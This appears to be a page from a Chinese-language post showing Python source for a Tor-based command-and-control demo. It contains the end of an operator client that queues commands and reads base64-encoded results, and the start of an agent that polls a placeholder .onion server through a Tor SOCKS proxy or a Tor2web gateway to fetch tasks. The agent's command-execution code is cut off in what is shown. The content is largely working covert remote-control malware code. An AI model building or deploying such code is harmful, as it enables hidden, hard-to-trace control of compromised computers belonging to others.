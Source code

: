 ```python
            print("[!] ERROR: Can not connect to TOR.")
            return
        try:
            print(base64.b64decode(resp.text).decode('utf-8'))
        except Exception:
            print(f"[*] INFO: Server return {resp.text}")

    def run(self):
        while True:
            act = input('->')
            if act == 'get':
                self.get_res()
            elif act == 'put':
                cmd = input('cmd: ')
                self.put_task(cmd)
            else:
                break


if __name__ == '__main__':
    client = Client()
    client.run()
```

agent 代码：

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-
"""
File:   :   tor_demo.py
Time    :   2021/08/16 16:45:01
Author  :   Hack3rHan
Contact :   i@010.moe
"""
import base64
import os
import requests

from time import sleep


class Agent(object):
    # Tor browser proxy
    proxy = {
        'http': 'socks5h://127.0.0.1:9150',
        'https': 'socks5h://127.0.0.1:9150'
    }
    url = 'http://examplexxxxxxxxx.onion/server.php'

    # Tor2web
    tor2web_url = 'http://examplexxxxxxxxx.onion.ws/server.php'


    def get_task(self) -> str or None:
        data = {
            'identity': 'agent',
            'action': 'get'
        }
        try:
            resp = requests.post(url=self.url, proxies=self.proxy, data=data, timeout=30)
        except Exception:
            print("[!] ERROR: Can not connect to TOR.")
            return
```